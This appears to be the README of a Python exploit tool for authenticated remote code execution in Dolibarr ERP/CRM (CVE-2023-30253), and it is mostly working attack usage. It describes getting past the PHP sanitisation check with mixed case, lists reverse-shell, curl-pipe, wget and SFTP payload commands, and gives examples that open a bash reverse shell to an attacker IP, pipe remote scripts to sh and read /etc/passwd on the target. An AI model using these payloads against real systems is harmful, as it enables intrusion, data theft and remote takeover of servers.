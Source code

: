# DolibabyPhp

An authenticated RCE exploit for Dolibarr ERP/CRM CVE-2023-30253.

## Installation

You can either install the package from the PyPi repository with `pip` or `git clone` the source directly from GitHub.

```shell
pip install dolibabyphp
```

## Usage

```txt
Usage: dolibabyphp [OPTIONS] TARGET_URL USERNAME PASSWORD COMMAND [ARGS]...

  This exploit will log into the Dolibarr web server at the specified target URL
  with the provided username and password. After that it will attempt to create
  a web page with a unique name. Once created, it will modify the web page to
  include the custom PHP code bypassing the sanitation check by not using only
  lowercase letters (e.g. PHP or pHp instead of php). There are multiple
  payloads to choose from After the payload has finished running, the web page
  will be deleted.

Options:
  --site-name TEXT       Specify a name to use when creating a site on the
                         target. Defaults to UUIDv4.
  --page-name TEXT       Specify a name to use when creating a page on the
                         target. Defaults to UUIDv4.
  --page-title TEXT      Specify a title for the page. Defaults to the page
                         name.
  --proxy TEXT           Specify a proxy URL for use in all requests.
  -o, --output FILENAME  Specify a file path to output the results of the
                         payload to. Defaults to stdout.
  -h, --help             Show this message and exit.

Commands:
  bash-reverse-shell     Spawns a bash shell on the victim machine and...
  cleanup                Runs the cleanup script on the target for given site...
  curl-pipe              Curl a file and pipe it to another command.
  custom-php-payload     Specify your own PHP payload to be run on the victim...
  custom-system-payload  Specify your own payload to be run via PHP system()...
  sftp                   SFTPs to the attacker machine, downloads the...
  wget                   Downloads the file at the specified URL to to the...
```

### Examples

Here are some examples of how to use the CLI.

```shell
# Reverse shell with Bash.
dolibabyphp http://example.com/ username1 pass_word23 bash-reverse-shell --lhost 1.2.3.4 --lport 4444

# Custom payload with a proxy.
dolibabyphp --proxy http://127.0.0.1:8080 http://example.com/ username1 pass_word23 custom-system-payload --payload "uname -a"

# SFTP and execute payload with output written to a file.
dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 sftp --private-key-file ./id_ed25519 sftp://me@1.2.3.4:2222/linpeas.sh ./style.css

# Curl payload and pipe it to sh.
dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 curl-pipe https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

### From Python

If you want to integrate this exploit into another Python project, you can just import it.

```python
from dolibabyphp import Exploit, furl, php_system, open_file, cleanup_site
from time import sleep

exploit = Exploit(
  target_url=furl('http://example.com'),
  username="username1",
  password="pass_word23",
)

# You can get the result of the payload directly from the exploit.
result = exploit.run(php_system('cat /etc/passwd'))
users = list(map(lambda acct: acct.split(':')[0], result.output.split('\n')))

# If cleanup fails, we can just try again.
while not result.cleaned_up:
  time.sleep(30) # wait a bit before trying cleanup again
  result.cleanup()

# You can also have it write the result to a file.
with open_file('./exploit-output.txt', 'w', lazy=True) as file:
  # You can reuse the same Exploit instance.
  exploit.output = file
  # The site_name and page_name do not change automatically.
  result = exploit.run(php_system('curl http://1.2.3.4/myscript.sh | sh'))
```

## Running from source

In order to run the project from the source code, you can either use `rye run` or make sure you add the `src/` directory to the `PYTHONPATH` and then import the module `dolibabyphp` with the `-m` flag.

```shell
# With rye
rye run dolibabyphp

# Without rye
PYTHONPATH="$(pwd)/src/" python -m dolibabyphp
```
